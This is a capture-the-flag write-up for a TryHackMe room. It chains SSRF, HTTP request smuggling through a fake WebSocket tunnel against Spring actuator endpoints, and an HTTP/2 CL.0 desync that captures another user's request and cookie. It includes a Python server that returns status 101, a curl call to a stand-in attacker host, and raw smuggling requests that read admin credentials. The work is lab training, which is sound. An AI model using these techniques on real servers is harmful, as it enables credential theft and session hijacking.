




> [!info]
> - [El Bandito](https://tryhackme.com/room/elbandito)
> - Difficulty: hard
> - Platform: web
>
> El Bandito, the new identity of the infamous Jack the Exploiter, has plunged into the Web3 domain with a devious token scam. By exploiting the decentralized essence of blockchain, he crafted and circulated fraudulent tokens, deceiving investors and shaking the foundational trust of the decentralized finance DeFi ecosystem.
>
> As we embark on this new challenge, it becomes clear that the stakes are higher than ever. To succeed, we must infiltrate his network, decode his strategies, and anticipate his moves before he can strike again.
>
> The mission has evolved: now, we must capture El Bandito. This requires a deep dive into the digital underworld, using cunning and technical skills to outmaneuver him and restore security.
>
> We request your help in smuggling all the flags.
>
> Answer the questions below
> 1. Whats the first web flag?
> 2. Whats the second web flag?

The room acts as a final step of HTTP smuggling module, so, explored vulnerabilities are not surprising:

- SSRF
- HTTP request smuggling via fake WebSocket tunnel
- HTTP request smuggling over HTTP 2 with CL.0 technique

 

## Information gathering

Port scan revealed two HTTP servers and a printing service (it is not used in this challenge).

```bash
$ sudo nmap -sV -vv -n -T4 10.10.146.124
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; pro
tocol 2.0)
80/tcp   open  ssl/http syn-ack ttl 60 El Bandito Server
631/tcp  open  ipp      syn-ack ttl 61 CUPS 2.4
8080/tcp open  http     syn-ack ttl 60 nginx
```

### Port 8080

On port 8080 there is a landing page for Bandit-Coin. Only two links work: "Services" and "Burn Token".


"Services" page shows status of related services.



Status is checked via simple `GET` requests with service URL as a parameter:

```
GET /isOnline?url=http://bandito.public.thm
GET /isOnline?url=http://bandito.websocket.thm
```

"Burn Token" page has a feature that doesn't work because it relies on WebSocket service which is currently down. Console shows a message that the service isn't working *on purpose*.



Directories enumeration with `gobuster` shows several useful endpoints.

```bash
...SNIP...
/trace (Status: 403) [Size: 146]
/autoconfig (Status: 403) [Size: 146]
/metrics (Status: 403) [Size: 146]
/env/home (Status: 403) [Size: 146]
/env/lang (Status: 403) [Size: 146]
/env (Status: 403) [Size: 146]
/env/pwd (Status: 403) [Size: 146]
/beans (Status: 403) [Size: 146]
/env/language (Status: 403) [Size: 146]
/dump (Status: 403) [Size: 146]
...SNIP...
```

With these (and rerunning `nmap` with scripts) I concluded that this web app is running Spring Java framework.

### Port 80

Second service must be accessed via HTTPS only and supports HTTP 2. Main page is linking to a JavaScript file:

```
$ curl -ksi  https://10.10.146.124:80 
HTTP/2 200 
date: Thu, 06 Mar 2025 21:42:47 GMT
content-type: text/html; charset=utf-8
content-length: 58
content-security-policy: default-src 'self'; script-src 'self'; object-src 'none';
x-content-type-options: nosniff
x-frame-options: SAMEORIGIN
x-xss-protection: 1; mode=block
feature-policy: microphone 'none'; geolocation 'none';
age: 0
server: El Bandito Server
accept-ranges: bytes

nothing to see <script src='/static/messages.js'></script>
```

File `messages.js` shows chat functionality and two endpoints:

```js
document.addEventListener("DOMContentLoaded", function () {
	...SNIP...
	function fetchMessages() {
		fetch("/getMessages")
			...SNIP...
	}

	...SNIP...

	// Function to send a message to the server
	function sendMessage() {
		...SNIP...
			fetch("/send_message", {
				...SNIP...
	}

	...SNIP...
```

Going to `/getMessages` redirects to the login form.



## Establishing a fake WebSocket tunnel via SSRF

Knowing that the room is about HTTP smuggling, I was confident that I needed to [establish a fake WebSocket tunnel](https://github.com/0ang3el/websocket-smuggle). First, we need to trick the server to think that WebSocket service responds with 101 code. For that, I confirmed SSRF vulnerability in the status check API:

```bash
$ curl -ksi 'http://MACHINE_IP:8080/isOnline?url=http://ATTACKER_IP:8000'
HTTP/1.1 200 
Server: nginx
Date: Thu, 06 Mar 2025 21:57:55 GMT
Content-Type: text/plain
Content-Length: 0
Connection: keep-alive
X-Application-Context: application:8081

```

Then I wrote a simple python server which responds with 101 code:

```python
from http.server import HTTPServer, BaseHTTPRequestHandler

class ExploitHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.log_request()
        if self.path == '/ws':
            self.protocol_version = "HTTP/1.1"
            self.send_response(101)
            self.end_headers()
            print("websocket request")
        else:
            print("other")

def run_server(port=8000):
    server_address = ('', port)
    httpd = HTTPServer(server_address, ExploitHandler)
    print(f"Server running on port {port}")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()

```

And to confirm successful request smuggling I crafted a request to non-existing page:

```http
GET /isOnline?url=http://ATTACKER_IP:8000/ws HTTP/1.1
Host: MACHINE_IP:8080
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /toto HTTP/1.1
Host: MACHINE_IP:8080

 
```

## Smuggling HTTP request to get the first flag

[Spring web apps have several interesting endpoints](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/spring-actuators.html):

> Certain Actuator endpoints can expose sensitive data or allow harmful actions:
> - `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, and `/heapdump`.

Smuggling request to `/trace` showed that there are two additional endpoints `/admin-creds` and `/admin-flag`.

{}
{}
```http
GET /isOnline?url=http://ATTACKER_IP:8000/ws HTTP/1.1
Host: MACHINE_IP:8080
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /trace HTTP/1.1
Host: MACHINE_IP:8080

 
```
{}

{}
```http
HTTP/1.1 101 
Server: nginx
Date: Fri, 07 Mar 2025 21:10:50 GMT
Connection: upgrade
X-Application-Context: application:8081

HTTP/1.1 200 
X-Application-Context: application:8081
Content-Type: application/json;charset=UTF-8
Transfer-Encoding: chunked
Date: Fri, 07 Mar 2025 21:10:50 GMT

13bc
[{"timestamp":1741381850617,"info":{"method":"GET","path":"/isOnline","headers":{"request":{"upgrade":"WebSocket","connection":"Upgrade","host":"localhost:8002","sec-websocket-key":"nf6dB8Pb/BLinZ7UexUXHg==","sec-websocket-version":"13"},"response":{"X-Application-Context":"application:8081","Date":"Fri, 07 Mar 2025 21:10:50 GMT","status":"101"}}}},{"timestamp":1741381841023,"info":{"method":"GET","path":"/admin-creds","headers":{"request":{"host":"0.0.0.0:8081","user-agent":"Wget","connection":"close"},"response":{"X-Application-Context":"application:8081","Content-Type":"text/plain","Content-Length":"55","Date":"Fri, 07 Mar 2025 21:10:40 GMT","Connection":"close","status":"200"}}}},{"timestamp":1741381840973,"info":{"method":"GET","path":"/admin-flag","headers":{"request":{"host":"0.0.0.0:8081","user-agent":"Wget","connection":"close"},"response":{"X-Application-Context":"application:8081","Content-Type":"text/plain","Content-Length":"43","Date":"Fri, 07 Mar 2025 21:10:40 GMT","Connection":"close","status":"200"}}}}, ...SNIP...]
0


```
{}
{}

And smuggling request to `/admin-flag` reveals the first flag:

{}
{}
```http
GET /isOnline?url=http://ATTACKER_IP:8000/ws HTTP/1.1
Host: MACHINE_IP:8080
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /admin-flag HTTP/1.1
Host: MACHINE_IP:8080

 
```
{}

{}
```http
HTTP/1.1 101 
Server: nginx
Date: Fri, 07 Mar 2025 21:16:46 GMT
Connection: upgrade
X-Application-Context: application:8081

HTTP/1.1 200 
X-Application-Context: application:8081
Content-Type: text/plain
Content-Length: 43
Date: Fri, 07 Mar 2025 21:16:46 GMT

THM{:::REDACTED:::}
```
{}
{}

## HTTP 2 CL.0 desync to get the second flag

Credentials from `/admin-creds` can be used to login into chat application:

{}
{}
```http
GET /isOnline?url=http://ATTACKER_IP:8000/ws HTTP/1.1
Host: MACHINE_IP:8080
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /admin-creds HTTP/1.1
Host: MACHINE_IP:8080

 
```
{}

{}
```http
HTTP/1.1 101 
Server: nginx
Date: Fri, 07 Mar 2025 21:15:49 GMT
Connection: upgrade
X-Application-Context: application:8081

HTTP/1.1 200 
X-Application-Context: application:8081
Content-Type: text/plain
Content-Length: 55
Date: Fri, 07 Mar 2025 21:15:49 GMT

username:REDACTED password:REDACTED
```
{}
{}



Having valid cookies I used [HTTP Request Smuggler](https://github.com/PortSwigger/http-request-smuggler) Burp extension to confirm possibility of poisoning HTTP queue:

```
Found issue: CL.0 desync: h2CL|TRACE /
Target: https://10.10.192.13
HTTP Request Smuggler repeatedly issued the attached request. After 1 attempts, it got a response that appears to have been poisoned by the body of the previous request. For further details and information on remediation, please refer to https://portswigger.net/research/browser-powered-desync-attacks
Evidence: 
...SNIP...
```

The extension found vulnerability using `Content-Length: 0` header (CL.0). I crafted a request to save next user request as a chat message:

```http
POST /send_message HTTP/2
Host: MACHINE_IP:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.Z8tq_Q.gQXcvleCNmEbgOtBufFKNugsIP4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://MACHINE_IP:80/messages
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: https://MACHINE_IP:80
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers


POST /send_message HTTP/1.1
Host: MACHINE_IP:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.Z8tq_Q.gQXcvleCNmEbgOtBufFKNugsIP4
Content-Type: application/x-www-form-urlencoded
Content-Length: 700

data=
```

After playing a bit with smuggled request's `Content-Size` I got a user request containing the second flag as a cookie value:

{}
{}
```http
GET /getMessages HTTP/2
Host: MACHINE_IP:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.Z8tq_Q.gQXcvleCNmEbgOtBufFKNugsIP4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://MACHINE_IP:80/messages
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers


```
{}

{}
```http
HTTP/2 200 OK
Date: Fri, 07 Mar 2025 22:01:08 GMT
Content-Type: application/json
Content-Length: 2883
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block
Feature-Policy: microphone 'none'; geolocation 'none';
Age: 0
Server: El Bandito Server
Accept-Ranges: bytes

{"JACK":["The Galactic Enforcement's quantum sniffers are onto us, tracing our blockchain exploits.","They're using predictive analytics, thinking they're ahead in a 4D chess game across the blockchain.","You need to jump now! Awaiting your signal to close the portal.",null,null,"njk",null,...SNIP..."GET /access HTTP/1.1\r\nhost: bandito.public.thm:80\r\nscheme: https\r\nsec-ch-ua: \"Chromium\";v=\"122\", \"Not(A:Brand\";v=\"24\", \"HeadlessChrome\";v=\"122\"\r\nsec-ch-ua-mobile: ?0\r\nsec-ch-ua-platform: \"Linux\"\r\nupgrade-insecure-requests: 1\r\nuser-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/122.0.6261.128 Safari/537.36\r\naccept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\nsec-fetch-site: none\r\nsec-fetch-mode: navigate\r\nsec-fetch-user: ?1\r\nsec-fetch-dest: document\r\naccept-encoding: gzip, deflate, br\r\ncookie: flag=THM{\u00a1!\u00a1REDACTED!\u00a1!}\r\nX-Forwa",null],"OLIVER":[]}

```
{}
{}

> [!note]
> You might need to try several times. HTTP smuggling isn't precise and can cause service disruption: I had to reboot the machine because the server kept dying.

